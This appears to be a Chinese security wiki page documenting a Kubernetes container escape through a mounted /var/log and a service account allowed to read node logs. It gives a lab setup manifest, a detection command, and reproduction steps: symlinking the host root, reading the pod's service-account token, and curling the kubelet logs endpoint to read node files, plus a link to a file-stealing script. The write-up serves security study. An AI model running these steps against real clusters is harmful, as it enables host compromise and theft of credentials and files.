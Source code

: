 ```yaml
---
title: k8s 下挂载 /var/log 逃逸

---
```


<center><h1>k8s 下挂载 /var/log 逃逸</h1></center>

---

## 0x00 前言

这里用单纯的挂载/var/log 来形容这个逃逸的触发条件其实不太严谨，需要满足如下条件。

- 挂载了/var/log
- 容器是在一个 k8s 的环境中
- 当前 pod 的 serviceaccount 拥有 get|list|watch log 的权限

## 0x01 环境搭建

```bash
git clone https://github.com/Metarget/metarget.git
cd metarget/
pip3 install -r requirements.txt
./metarget gadget install k8s --version 1.16.5
./metarget cnv install mount-var-log
```

或者在 k8s 中执行以下配置文件

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: logger
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: user-log-reader
rules:
- apiGroups: [""]
  resources:
  - nodes/log
  verbs: ["get", "list", "watch"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: user-log-reader
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: user-log-reader
subjects:
- kind: ServiceAccount
  name: logger
  namespace: default
---
apiVersion: v1
kind: Pod
metadata:
  name: escaper
spec:
  serviceAccountName: logger
  containers:
  - name: escaper
    image: danielsagi/kube-pod-escape
    volumeMounts:
    - name: logs
      mountPath: /var/log/host
  volumes:
  - name: logs
    hostPath:
      path: /var/log/
      type: Directory
```

## 0x02 漏洞检测

前提是处于 k8s 环境下，漏洞检测才有意义

```bash
find / -name lastlog 2>/dev/null | wc -l | grep -q 3 && echo "/var/log is mounted." || echo "/var/log is not mounted."
```

## 0x03 漏洞复现

进入容器

```bash
kubectl exec --stdin --tty escaper -- /bin/bash
```

这里的 /var/log 目标挂载到了 /var/log/host 下，创建软链接

```bash
cd /var/log/host
ln -s / ./root_link
```

这时就可以访问到 node 节点上的文件了

```bash
token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -k https://172.17.0.1:10250/logs/root_link/ -H "Authorization: Bearer $token"
```

   <br>

<img width="1000" src="/img/1650013099.png"></br>

或者直接使用脚本，一键窃取敏感文件 https://github.com/danielsagi/kube-pod-escape

   <br>

<img width="1000" src="/img/1650013123.png"></br>

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>